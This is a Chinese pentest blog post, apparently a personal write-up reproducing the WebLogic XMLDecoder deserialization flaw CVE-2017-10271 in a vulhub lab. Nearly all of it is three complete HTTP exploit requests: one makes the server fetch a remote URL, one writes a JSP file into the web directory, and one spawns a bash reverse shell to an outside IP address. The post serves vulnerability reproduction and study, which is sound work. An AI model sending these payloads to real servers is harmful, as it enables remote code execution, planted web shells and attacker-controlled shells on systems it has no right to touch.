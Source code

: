 +++
date = "2018-03-09T09:20:03+08:00"
description = "2017年的漏洞，weblogic的 XMLDecoder 组件存在反序列化漏洞，当时爆出这个漏洞时没有看，现在权当记录了"
draft = false
tags = ["代码执行"]
title = "WebLogic 反序列化漏洞(CVE-2017-10271)"
topics = ["Pentest"]

+++
<!--
 * @Author: reber
 * @Mail: 1070018473@qq.com
 * @Date: 2019-04-10 10:45:01
 * @LastEditTime: 2019-07-25 12:20:56
 -->

### 0x00 WebLogic WLS组件反序列化漏洞
这个漏洞的编号是 CVE-2017-10271，漏洞存在于 Oracle WebLogic 的 wls-wsat 组件中，该组件的 XMLDecoder 方法在反序列化时存在漏洞可远程代码执行，凡是版本号 < 10.3.6 的都受到影响，刚出来时没有看，现在记录一下

漏洞环境：https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2017-10271


### 0x01 访问远程文件
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=DJbghZRGlJf0PyyLc52n4GdvrbDkrxKWGDpwnncFpHnqsDjMT68F!-298356074
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 688
Content-Type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.8" class="java.beans.XMLDecoder">
                <object id="url" class="java.net.URL">
                    <string>http://114.115.123.123:80/aaaaaaa</string>
                </object>
                <object idref="url">
                    <void id="stream" method = "openStream" />
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

### 0x02 写入文件
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=DJbghZRGlJf0PyyLc52n4GdvrbDkrxKWGDpwnncFpHnqsDjMT68F!-298356074
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 688
Content-Type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.8.0" class="java.beans.XMLDecoder">
                <object class="java.io.PrintWriter"> 
                    <string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/cert.jsp</string>
                    <void method="println"><string>&lt;% out.print("ccccc"); %&gt;</string></void>
                    <void method="close"/>
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```
然后访问：http://127.0.0.1:7001/wls-wsat/cert.jsp 即可

### 0x03 执行命令
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=DJbghZRGlJf0PyyLc52n4GdvrbDkrxKWGDpwnncFpHnqsDjMT68F!-298356074
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 803
Content-Type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java>
                <object class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3" >
                        <void index="0"><string>/bin/bash</string></void>
                        <void index="1"><string>-c</string></void>
                        <void index="2"><string><![CDATA[bash -i >& /dev/tcp/114.115.123.123/8888 0>&1]]></string></void>
                    </array>
                    <void method="start"/>
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```
![CVE-2017-10271执行命令实例](/img/post/cve_2017_10271_command_exec.png)

<br>
#### Reference(侵删)：
* [利用 DNSlog 回显 Weblogic(CVE-2017-10271)漏洞执行命令结果](http://www.freebuf.com/column/158579.html?_blank)
* [Weblogic(CVE-2017-10271)漏洞复现 附POC](http://www.bugsafe.cn/archives/136.html?_blank)
